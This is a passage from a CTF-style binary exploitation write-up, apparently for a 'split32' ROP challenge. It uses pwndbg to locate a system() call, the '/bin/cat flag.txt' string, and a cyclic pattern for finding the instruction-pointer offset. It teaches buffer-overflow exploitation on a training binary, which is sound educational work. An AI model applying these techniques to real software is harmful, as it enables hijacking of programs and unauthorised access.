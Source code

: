 ### Manual Exploitation

We will be using lots of `pwndbg` on this step.

NOTE: You can get most of this information from **IDA** as well but I prefer `pwndbg` at this step.

**Viewing the disassembly of `usefulFunction()`:**

```
disass usefulFunction

Dump of assembler code for function usefulFunction:
   0x0804860c <+0>:     push   ebp
   0x0804860d <+1>:     mov    ebp,esp
   0x0804860f <+3>:     sub    esp,0x8
   0x08048612 <+6>:     sub    esp,0xc
   0x08048615 <+9>:     push   0x804870e
   0x0804861a <+14>:    call   0x80483e0 <system@plt>
   0x0804861f <+19>:    add    esp,0x10
   0x08048622 <+22>:    nop
   0x08048623 <+23>:    leave
   0x08048624 <+24>:    ret
End of assembler dump.
```

**The `system()` call address:**

```
0x0804861a
```

We also want the offset of the string `"/bin/cat flag.txt"`.

**Set a breakpoint at main and run the program:**

```
b main
r
```

Now that we have the program running in memory, we can search for "/bin/cat flag.txt":

```
search /bin/cat

Searching for value: '/bin/cat'
split32         0x804a030 '/bin/cat flag.txt'
```

* Making our offset `0x804a030`

**Okay, our next goal is to find the offset to the instruction pointer using a cyclic pattern of 100 bytes:**

```
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
c
<send input>
```
